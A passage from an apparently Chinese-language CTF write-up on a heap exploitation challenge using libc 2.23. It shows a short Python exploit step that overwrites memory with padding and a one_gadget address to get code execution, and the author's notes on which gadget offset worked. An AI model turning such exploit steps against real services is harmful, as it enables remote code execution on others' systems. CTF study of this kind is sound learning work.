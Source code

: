    ![0x9](/img/image-20220724031232617.png)

   最后写入ROP链并执行，理论上就打通了

   ```python
   one_gadget_addr = libc_base + 0x4527a
   payload = 0x13 * b'a' + p64(one_gadget_addr)
   fill(6, len(payload), payload)
   allocate(0x100)
   ```

   实际操作中打不通，看了wiki和其他师傅的wp后发现只要将`0x4527a`改成`0x4526a`就打通了，(如图为我的one_gadget结果，使用的是all_in_one中的2.23-0ubuntu11.3_amd64)

   ![0xa](/img/image-20220724033857414.png)

   用了buuctf的`libc-2.23.so`看了一下。但是使用了buu给的libc之后本地仍然打不通...
